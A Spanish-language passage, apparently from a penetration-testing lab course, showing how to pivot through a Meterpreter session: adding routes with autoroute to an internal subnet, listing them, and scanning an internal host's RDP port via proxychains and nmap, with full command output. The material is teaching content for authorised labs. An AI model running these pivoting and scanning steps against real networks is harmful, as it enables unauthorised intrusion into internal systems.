 También es posible agregar rutas con autorruta ejecutando autoroute desde la sesión de Meterpreter.

Túneles y reenvío de puertos de Meterpreter

```python
meterpreter > run autoroute -s 172.16.5.0/23

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Adding a route to 172.16.5.0/255.255.254.0...
[+] Added route to 172.16.5.0/255.255.254.0 via 10.129.202.64
[*] Use the -p option to list all active routes
```

Después de agregar las rutas necesarias, podemos usar el `-p` opción para enumerar las rutas activas para asegurarnos de que nuestra configuración se aplique como se esperaba.

#### Listado de rutas activas con AutoRoute

Túneles y reenvío de puertos de Meterpreter

```python
meterpreter > run autoroute -p

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]

Active Routing Table
====================

   Subnet             Netmask            Gateway
   ------             -------            -------
   10.129.0.0         255.255.0.0        Session 1
   172.16.4.0         255.255.254.0      Session 1
   172.16.5.0         255.255.254.0      Session 1
```

Como puede ver en el resultado anterior, la ruta se agregó a la red 172.16.5.0/23. Ahora podremos usar cadenas proxy para enrutar nuestro tráfico de Nmap a través de nuestra sesión de Meterpreter.

#### Prueba de funcionalidad de enrutamiento y proxy

Túneles y reenvío de puertos de Meterpreter

```python
G41i130Q@htb[/htb]$ proxychains nmap 172.16.5.19 -p3389 -sT -v -Pn

ProxyChains-3.1 (http://proxychains.sf.net)
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-03 13:40 EST
Initiating Parallel DNS resolution of 1 host. at 13:40
Completed Parallel DNS resolution of 1 host. at 13:40, 0.12s elapsed
Initiating Connect Scan at 13:40
Scanning 172.16.5.19 [1 port]
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.5.19 :3389-<><>-OK
Discovered open port 3389/tcp on 172.16.5.19
Completed Connect Scan at 13:40, 0.12s elapsed (1 total ports)
Nmap scan report for 172.16.5.19 
Host is up (0.12s latency).

PORT     STATE SERVICE
3389/tcp open  ms-wbt-server

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.45 seconds
```
